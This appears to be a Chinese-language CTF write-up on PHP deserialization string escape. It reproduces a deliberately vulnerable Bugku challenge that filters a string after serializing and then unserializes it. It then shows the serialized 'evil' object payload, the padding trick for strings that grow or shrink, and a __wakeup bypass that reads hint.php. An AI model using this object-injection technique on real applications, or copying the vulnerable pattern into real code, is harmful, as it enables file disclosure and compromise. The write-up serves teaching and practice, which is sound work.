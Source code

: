 ```yaml
---
title: PHP 反序列化与字符串逃逸
date: 2021-07-18 17:21:33
description: 
categories:
  - Pentest
tags:
  - 反序列化
---
```


### 0x00 漏洞成因
该漏洞主要是因为序列化的字符串在经过过滤函数不正确的处理而导致对象注入，目前看到都是因为过滤函数放在了 serialize 函数之后

### 0x01 条件
* 相邻两个属性的值是我们可以控制的
* 前一个属性的 s 长度可以发生变化（变长变短都可以）
    * 若变长则可以直接在该属性中注入对象来达到反序列化
    * 若变短则可以吞掉后面相邻属性的值，在后面的属性中注入新的对象

### 0x02 题目
Bugku CTF 的题
```php
<?php
// php版本:5.4.44
header("Content-type: text/html; charset=utf-8");
// highlight_file(__FILE__);

class evil{
    public $hint;
    public function __construct($hint){
        $this->hint = $hint;
    }
    public function __destruct(){
        if($this->hint==="hint.php") {
            @$this->hint = base64_encode(file_get_contents($this->hint)); 
        }
        var_dump($this->hint);
    }
    function __wakeup() { 
        if ($this->hint != "╭(●｀∀´●)╯") { 
            //There's a hint in ./hint.php
            $this->hint = "╰(●’◡’●)╮"; 
        } 
    }
}

class User
{
    public $username;
    public $password;
    public function __construct($username, $password){
        $this->username = $username;
        $this->password = $password;
    }

}

function filter($data){
    $data = str_replace('123', 'abcdef', $data);
    return $data;
}

$username = $_POST['username'];
$password = $_POST['password'];

$a = serialize(new User($username, $password));
if(preg_match('/flag/is', $a))
    die("NoNoNo!");

$w = filter($a);
unserialize($w);
?>
```

### 0x03 分析
* 可以看到我们可以传入 username 和 password 触发 User 类，而我们需要触发 evil 类从而获取 hint.php
* 题目中序列化了 User 类然后结果被方法 write 和 read 处理后再反序列化
* filter 一个是将序列化后的字符串变长的函数
* 我们可以序列化 eval 类并作为参数传入 User，将 eval 当作 User 的一个元素从而触发 eval

### 0x04 获取触发 evil 的序列化字符串
```php
<?php
class evil{
    public $hint;
    public function __construct($hint){
        $this->hint = $hint;
    }
}

var_dump(serialize(new evil("hint.php")));
?>
```
输出 `payload：O:4:"evil":1:{s:4:"hint";s:8:"hint.php";}`

### 0x05 利用(过滤后变长)
经过 filter 函数后，序列化的字符串中的 123 会被替换为 abcdef，整体来说遇到一个 123 字符串就会变长 3

```php
$a = serialize(new User($username, $password));
if(preg_match('/flag/is', $a))
    die("NoNoNo!");

var_dump($a);
echo "<br>";

$w = filter($a);
var_dump($w);
echo "<br>";

unserialize($w);
```
post username=111&password=222，经过 filter 后输出
```php
O:4:"User":2:{s:8:"username";s:3:"111";s:8:"password";s:3:"222";}
```

可以看出其实可控的是 111 及后面的 222，我们需要将 User 类序列化的字符串想办法构造为

`O:4:"User":2:{s:8:"username";s:4:"111";     s:8:"password";`<f>序列化后的 evil 字符串</f>;}

当我们传入构造后的序列化 payload 后
![](/img/post/16258097627342.jpg)

上图中，位置 2 在序列化的字符串中其实是 username 的值，是一个字符串，若我们在 1 的位置插入 60 个字符

则 username 的值为我们插入的 60 个字符，而 password 的值则为 payload <f>`O:4:"evil":1:{s:4:"hint";s:8:"hint.php";}`</f>，后面 3 位置的字符串失效，当反序列化时即可触发 evil，构造后如下图：
![](/img/post/16258101773735.jpg)
将 payload 中 evil 的属性个数改为大于存在的属性个数即可绕过 wakeup，最终得到 hint.php 的内容
![](/img/post/16258103107382.jpg)

### 0x06 延伸(过滤后变短)
更改 filter 函数，经过处理后序列号字符串变短
```php
function filter($data){
    $data = str_replace('abcdef', '123', $data);
    return $data;
}
```
若处理后变短则可以吞掉后面相邻属性的值，所以可以在后面的属性中注入新的对象

前面的属性经过处理后变短，需要我们填充垃圾字符串，使长度和原来相同，就会注入 evil 对象即可
![](/img/post/16258114498309.jpg)

从上图可以看出，输入的字符串被替换为了 123123，但是显示的长度还是 12，位数不对时反序列化就会出错

我们需要把位置 1 的数字和位置 2 的字符串的位数设置为相同，这样反序列化不会出错且位置 3 还会触发 evil

具体如下，可触发 evil 得到 hint.php 中的内容：
![](/img/post/16258119470950.jpg)


#### Reference(侵删)：
* [https://blog.csdn.net/qq_25755011/article/details/115950424](https://blog.csdn.net/qq_25755011/article/details/115950424?_blank)
* [https://www.cnblogs.com/tr1ple/p/11876441.html](https://www.cnblogs.com/tr1ple/p/11876441.html?_blank)
* [https://cloud.tencent.com/developer/article/1627299](https://cloud.tencent.com/developer/article/1627299?_blank)
